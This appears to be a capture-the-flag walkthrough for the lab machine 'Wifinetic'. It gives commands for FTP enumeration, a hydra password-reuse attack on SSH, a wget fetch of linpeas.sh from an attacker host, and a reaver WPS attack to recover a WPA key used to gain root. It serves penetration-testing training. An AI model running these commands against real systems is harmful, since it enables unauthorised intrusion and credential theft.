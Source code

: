 # Wifinetic - Easy

```sh
sudo vim /etc/hosts
# map wifinetic.htb

nmap -T4 -p- -A -Pn -v wifinetic.htb
```

* Open ports & services:

    * 21/tcp - ftp - vsftpd 3.0.3
    * 22/tcp - ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.9
    * 53/tcp - tcpwrapped

* Enumerating FTP:

    ```sh
    ftp wifinetic.htb
    # anonymous login works

    dir
    # we have 5 files

    mget *
    # fetch all

    exit 
    ```

* The '.txt' and '.pdf' files give us some email addresses - 'info@wifinetic.htb', 'management@wifinetic.htb', 'samantha.wood93@wifinetic.htb' and 'olivia.walker17@wifinetic.htb' - Olivia Walker and Samantha Wood could be users on the box

* The '.tar' file can be extracted, it seems to be a backup of the ```/etc/``` directory - we can check for any sensitive info

* The files are likely for a OpenWRT system (to act as a wifi router), so there's a lot of interesting info; from the 'config' folder, we get a cleartext password 'VeRyUniUqWiFIPasswrd1!' in one of the files

* From the ```passwd``` file, while we do not get any hashes, we get a username 'netadmin'

* We can check for password re-use with SSH for all the enumerated usernames:

    ```sh
    vim usernames.txt
    # add all the usernames found so far

    hydra -L usernames.txt -p 'VeRyUniUqWiFIPasswrd1!' wifinetic.htb ssh
    # password valid for 'netadmin' user
    ```

* We can SSH as 'netadmin' now and enumerate for privesc:

    ```sh
    ssh netadmin@wifinetic.htb

    ls -la
    # get user flag

    sudo -l
    # cannot run sudo commands

    ls -la /home
    # we have a lot of users here
    # enumerate all of them for any sensitive data

    # we cannot access any of the users .ssh folders

    # we can enumerate using linpeas.sh

    # in attacker machine
    python3 -m http.server

    # in netadmin ssh
    wget http://10.10.12.18:8000/linpeas.sh
    chmod +x linpeas.sh
    ./linpeas.sh
    ```

* ```linpeas``` shows that we have a non-standard binary ```/usr/bin/reaver``` with capabilities ```cap_net_raw+ep``` - we can try to see what it does:

    ```sh
    /usr/bin/reaver
    # it seems to be a wifi attack tool
    # we can use it for wifi cracking

    # to use reaver, we need an interface in monitor mode and a BSSID

    ip l
    # list interfaces
    # we need an interface in monitor mode
    # usually aircrack-ng or similar tool brings it in monitor mode, but we do not have that tool here

    iwconfig
    # utility to check if interface is in managed or monitor mode
    # this shows 'mon0' interface is in monitor mode already

    wash -i mon0
    # fetch BSSIDs of networks
    # this command does not give any output, likely no other BSSID detected
    # we can try this with other switches, but no output

    iwconfig
    # this command shows the BSSID of the currently connected access point
    # we can try reaver with that

    reaver -i mon0 -b 02:00:00:00:00:00 -vv
    # this works and we get the WPA PSK
    ```

* The WPA PSK 'WhatIsRealAnDWhAtIsNot51121!' seems like another password - we can try checking for password reuse with root:

    ```sh
    su
    # use the above password
    # it works, we are root

    cat /root/root.txt
    # root flag
    ```
